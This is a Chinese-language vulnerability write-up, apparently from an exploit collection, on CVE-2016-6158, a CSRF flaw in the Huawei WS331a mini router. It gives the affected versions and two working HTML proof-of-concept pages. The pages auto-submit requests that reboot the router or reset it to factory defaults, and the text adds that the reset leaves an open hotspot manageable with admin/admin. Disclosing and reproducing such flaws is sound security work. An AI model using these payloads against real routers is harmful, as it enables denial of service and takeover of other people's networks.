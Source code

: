 ```yaml
---
title: "（CVE-2016-6158）华为WS331a产品管理页面存在CSRF漏洞"
id: zhfly3389
---
```


# （CVE-2016-6158）华为WS331a产品管理页面存在CSRF漏洞

## 一、漏洞简介

HuaweiWS331a是中国华为（Huawei）公司的一款迷你无线路由器。使用WS331a-10V100R001C01B112之前版本软件的HuaweiWS331a路由器的管理界面存在跨站请求伪造漏洞。远程攻击者可通过提交特制的请求利用该漏洞恢复出厂设置或重启设备。

## 二、漏洞影响

WS331a-10 V100R001C02B017SP01及之前版本

## 三、复现过程

### POC实现代码如下：

> 当管理员登陆后，打开如下poc页面，WS331a设备将重启。

```
<form action="http://192.168.3.1/api/service/reboot.cgi" method="post">
</form>
<script> document.forms[0].submit(); </script> 
```

> 当管理员登陆后，打开如下poc页面，WS331a设备将恢复初始化配置。设备自动重启后不需要密码即可连接热点，并使用amdin/admin对设备进行管理控制。

```
<form action="http://192.168.3.1/api/service/restoredefcfg.cgi" method="post">
</form>
<script> document.forms[0].submit(); </script> 
```